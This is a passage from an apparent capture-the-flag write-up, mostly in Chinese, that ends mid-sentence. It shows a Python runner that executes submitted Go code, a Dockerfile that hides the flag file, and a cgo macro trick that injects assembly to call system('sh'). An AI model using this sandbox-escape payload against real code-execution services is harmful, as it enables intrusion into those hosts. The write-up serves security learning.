 ```python
# Run
with tempfile.TemporaryDirectory() as dirname:
    filename = "main.go"
    open(f"{dirname}/{filename}", "w").write(code)

    try:
        proc = subprocess.run(
            ["go", "run", filename],
            cwd=dirname,
            timeout=15,
            capture_output=True,
            env={
                "PATH": "/usr/local/go/bin:/usr/sbin:/usr/bin:/sbin:/bin",
                "HOME": dirname,
            },
        )
        print(proc.stdout.decode() if proc.returncode == 0 else ":(")
        print("Executed")
    except subprocess.TimeoutExpired:
        print("Timeout")
    except Exception:
        print("Error")

```

 flag 在当前目录，文件名被处理过：

```dockerfile
COPY flag.txt .
RUN mv flag.txt /flag-$(md5sum flag.txt | cut -c-32).txt
COPY --chmod=555 app.py run
```



### solution 1: cgo macro gadget

go 代码要正常运行，main 函数是必要的，这样括号已经用完了。

考虑用 cgo 引入汇编：

```go
package main
/*
#include <asm/vm86.h>
#define _BITUL asm
#define X86_CR0_PE_BIT "X:.int 26739;.xdef free;free:lea X,%rdi;jc system"
X86_CR0_PE;
*/
import "C"
func main(){}
```

`X86_CR0_PE` 定义在 asm/processor-flags.h 中：
